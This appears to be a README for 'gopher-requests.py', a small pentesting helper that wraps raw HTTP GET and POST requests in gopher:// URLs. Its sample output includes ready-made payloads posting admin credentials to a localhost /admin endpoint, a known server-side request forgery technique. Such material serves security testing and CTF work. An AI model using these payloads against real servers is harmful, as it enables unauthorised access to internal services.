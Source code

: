 Gopher HTTP requests (POST/GET) | By: Liquidsky

URL: gopher: // <host>:<port>/<gopher-path>_ followed by TCP data stream

Be careful not to forget the underscore "_" at the end. The TCP data stream begins after the underscore "_". If you do not add this "_", the message received by the server will not be complete. You can write this character at will.

Tip for determing POST request length:

└─$ echo "username=admin&password=admin" | wc -c 
 Output= 30
 Subtract 1 from this result. = 29 -> Then add this to content length header.

Example output:

'''
└─$ python3 gopher-requests.py

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 1
[x] Gopher GET Request
gopher://localhost:80/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A
[!] Happy Hacking ^_~

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 2
[?] Informational: The four HTTP headers above are required for POST requests, namely POST, Host, Content-Type and Content-Length. If it is missing, an error will be reported, but GET does not use it.
[x] Gopher POST Request
gopher://127.0.0.1:80/_POST%20/admin%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2029%0D%0A%0D%0Ausername%3Dadmin%26password%3Dadmin%0D%0A
[!] Happy Hacking ^_~
'''
